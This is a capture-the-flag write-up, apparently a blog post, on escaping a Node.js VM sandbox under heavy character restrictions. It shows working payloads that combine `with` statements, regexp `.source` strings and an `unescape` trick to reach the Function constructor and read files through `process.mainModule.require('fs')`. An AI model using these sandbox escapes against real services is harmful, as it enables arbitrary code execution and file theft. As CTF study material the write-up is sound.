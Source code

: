 ``` js
        } else {
            console.log(
                "Third time really is the charm! I've finally created an unhackable system!"
            );
        }
    }
);
```

The VM bypass part is very simple, and `this.constructor.constructor('return ...')()` can be used to solve it, but the difficulty lies in the fact that many characters are restricted, and string-related ones cannot be used, and `.` and `[]` are also not allowed, and `{ };>` are also not allowed, which blocked many things. After trying for a while, I remembered that [with](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/with) can also be used to access properties, like this:

``` js
with(console)log(123)
```

The string part can be bypassed using regexp, like this: `/string/.source`.

While doing it, I thought of whether decodeURI could be used to bypass some characters, but I didn't think about it carefully. After the game, I found that many people used this trick to solve it, such as lebr0nli:

``` js
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
``` 

If the regexp is directly converted to a string, there will be two `/` before and after. Just add `/\n` inside the regexp, and it will be combined with the previous one to become like this:

``` js
//
your_code_here
```

The concept is actually quite similar to the XSS challenge I previously created.

Anyway, the payload framework I finally assembled looks like this:

``` js
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
```

Just change `console.log(1)` to the code you want to run, and the code we want to run is:

``` js
return String(process.mainModule.require('fs').readFileSync('flag.txt'))
```

The step of converting to a string is not necessary, it just makes the flag more readable.

Then you can use `with` to convert the above code to:

``` js
with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
```
